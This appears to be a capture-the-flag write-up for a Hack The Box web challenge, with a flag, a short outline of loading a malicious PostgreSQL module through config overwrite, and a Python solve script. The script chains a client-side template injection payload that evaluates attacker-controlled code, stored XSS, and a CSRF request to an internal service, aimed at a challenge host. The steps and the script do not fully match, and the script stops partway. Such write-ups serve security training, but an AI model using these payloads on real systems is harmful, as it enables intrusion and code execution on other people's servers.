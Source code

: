 TLDR:
- overwrite the `/var/lib/postgresql/data/postgresql.conf` file with a custom one that loads a malicious module
- upload the compiled malicious module
- reload the config
- on the first database connection after the config is reloaded, the malicious module will be loaded

`HTB{l00k_0ut_f0r_0auth_155u35}`
## Full exploit
1. Register with `'> ${this.constructor.constructor('eval(decodeURIComponent(location.search.substr(3)))')()}`
2. Place the bid -> stored xss is achieved
3. Exploit the sqli calling the bot to `http://localhost/auction/id#xss_payload`

`solve.py`
```python
import requests
import base64
from urllib.parse import quote
import time

url = "http://83.136.249.227:47313"

session = requests.session()

csti_payload = "'> ${this.constructor.constructor('eval(decodeURIComponent(location.search.substr(3)))')()}"
auth_data={"username": csti_payload, "password": "sebb"}

def register():
    session.post(f"{url}/oauth/register", data=auth_data)

def login():
    r = session.post(f"{url}/oauth/login", data=auth_data)
    if "User Information" not in r.text:
        print("Failed to login")
        return
    cid = session.get(f"{url}/api/config").json()["oauthClientId"]
    r = session.post(f"{url}/oauth/authorize", data={"response_type": "code", "client_id": cid, "redirect_uri": "/callback", "scope": "read", "state": "", "approve": "true"}, allow_redirects=False)
    # Extract auth code from the redirect URL
    try:
        auth_code = r.headers.get("Location").split("code=")[1]
    except:
        print(r.text)
        print("Failed to get auth code")
        return
    session.post(f"{url}/api/oauthLogin", data={"code": auth_code})

def place_bid():
    session.post(f"{url}/api/auctions/1/bids", json={"bid": "70"})
    
def build_xss_payload(json):
    xss_payload = f"fetch('http://127.0.0.1:1337/table', {{method: 'POST', body: JSON.stringify({json}), headers: {{'Content-Type': 'application/json'}}}})"
    return xss_payload

def csrf(json):
    xss_payload = build_xss_payload(json)
    r = session.post(f"{url}/api/submissions", json={"name":"xxx","description":"xxx","url":f"http://127.0.0.1:1337/auction/1?c={quote(xss_payload)}","category":"lore"})
    print(r.text)

```